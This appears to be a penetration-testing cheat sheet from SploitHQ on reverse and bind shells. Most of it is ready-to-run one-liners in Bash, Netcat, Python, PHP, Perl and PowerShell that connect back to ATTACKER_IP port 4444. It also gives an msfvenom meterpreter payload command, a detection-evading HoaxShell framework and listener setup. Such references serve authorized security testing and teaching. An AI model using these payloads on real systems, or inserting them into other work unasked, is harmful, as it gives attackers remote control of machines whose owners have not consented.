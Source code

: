 # Reverse Shells – Connect Back to Attacker for Remote Control

A **reverse shell** is a technique where a compromised system connects back to an attacker’s machine, giving remote command-line access. It’s a critical tool in penetration testing, red teaming, and post-exploitation scenarios.

🔗 [Use the Reverse Shell Generator on SploitHQ](https://sploithq.com/reverse-shells)

---

## 🎯 Why Use Reverse Shells?

- Evades inbound firewall rules (target initiates connection)
- Allows control over compromised machines
- Useful when direct inbound access (bind shell) is blocked

---

## 🧰 Common Reverse Shells

### Bash
```bash
bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
```

### Netcat (Traditional)
```bash
nc ATTACKER_IP 4444 -e /bin/bash
```

### Netcat (without `-e`)
```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc ATTACKER_IP 4444 > /tmp/f
```

### Python
```bash
python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("ATTACKER_IP",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

### PHP
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'"); ?>
```

### Perl
```perl
perl -e 'use Socket;$i="ATTACKER_IP";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### PowerShell (Windows)
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object Net.Sockets.TCPClient("ATTACKER_IP",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}
```

---

## 🔄 Bind Shells (Alternative)

A **bind shell** opens a listening port on the target system and waits for the attacker to connect in.

### Netcat Bind Shell
```bash
nc -nlvp 4444 -e /bin/bash
```

---

## 💣 Payloads with MSFVenom

Use `msfvenom` to generate binary payloads for different platforms.

Example:
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f elf -o shell.elf
```

More on: [Payload Generator – SploitHQ](https://sploithq.com/payload-generator)

---

## 🦊 HoaxShell – Advanced Reverse Shell Framework

**HoaxShell** is a fully interactive PowerShell reverse shell over HTTP/HTTPS designed to evade detection.

Example setup:
```bash
python3 hoaxshell.py
```

Then execute the generated PowerShell command on the target.

🔗 [Learn More at SploitHQ](https://sploithq.com/reverse-shells)

---

## ⚠️ Notes

- Always set up a listener first:  
  ```bash
  nc -lvnp 4444
  ```

- Replace `ATTACKER_IP` with your real IP address (e.g., from a VPS or tunnel)
- Use `iptables` or `tcpdump` to debug traffic if the shell doesn’t connect

---

## 🔗 Useful Links

- [PayloadsAllTheThings – Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- [SploitHQ Reverse Shell Generator](https://sploithq.com/reverse-shells)

---

## 📄 License

This content is maintained by [SploitHQ](https://sploithq.com) for educational and authorized penetration testing use only.
